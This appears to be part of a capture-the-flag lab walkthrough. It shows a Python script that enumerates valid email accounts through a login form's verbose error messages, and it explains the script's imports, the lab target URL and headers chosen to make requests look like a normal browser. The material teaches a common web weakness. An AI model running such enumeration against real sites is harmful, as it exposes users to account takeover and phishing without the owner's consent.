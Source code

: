 ```python
    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)

    email_file = sys.argv[1]

    valid_emails = enumerate_emails(email_file)

    print("\nValid emails found:")
    for valid_email in valid_emails:
        print(valid_email)
```
### Breakdown:

#### Imports:

- **requests**: A Python library for making HTTP requests. This is used to interact with the web server by sending POST requests to the target endpoint.

```python
import requests
```
#### Setup:

- **url**: The script targets the endpoint handling the login functionality of the application.

```python
url = 'http://enum.thm/labs/verbose_login/functions.php'
```

- **headers**: A collection of HTTP headers is defined to mimic a typical browser request, ensuring the requests appear legitimate.

```python
headers = {
      'Host': 'enum.thm',
      'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
      'Accept': 'application/json, text/javascript, */*; q=0.01',
      'Accept-Language': 'en-US,en;q=0.5',
      'Accept-Encoding': 'gzip, deflate',
      'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
      'X-Requested-With': 'XMLHttpRequest',
      'Origin': 'http://enum.thm',
      'Connection': 'close',
      'Referer': 'http://enum.thm/labs/verbose_login/',
  }
```
